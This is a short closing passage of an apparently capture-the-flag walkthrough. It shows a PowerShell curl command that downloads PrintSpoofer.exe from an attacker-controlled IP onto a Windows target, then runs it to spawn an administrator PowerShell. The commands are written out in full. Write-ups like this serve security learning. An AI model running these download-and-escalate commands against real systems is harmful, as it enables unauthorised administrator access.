 ```
![image](https://user-images.githubusercontent.com/69868171/126162232-e9499a75-c6dd-46a6-b057-e09b9690d84c.png)

Now let get it on the target.

```
powershell -c curl http://10.8.0.156/PrintSpoofer.exe -o C:\tmp\printspoofer.exe

printspoofer.exe -i -c powershell
```

![image](https://user-images.githubusercontent.com/69868171/126164775-990689af-70a2-4f00-b9dc-feeda1f25fbc.png)

We are administrator boom.

![image](https://user-images.githubusercontent.com/69868171/126164952-eeaf0392-1bcd-450a-b686-a1a90da8d8c9.png)

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
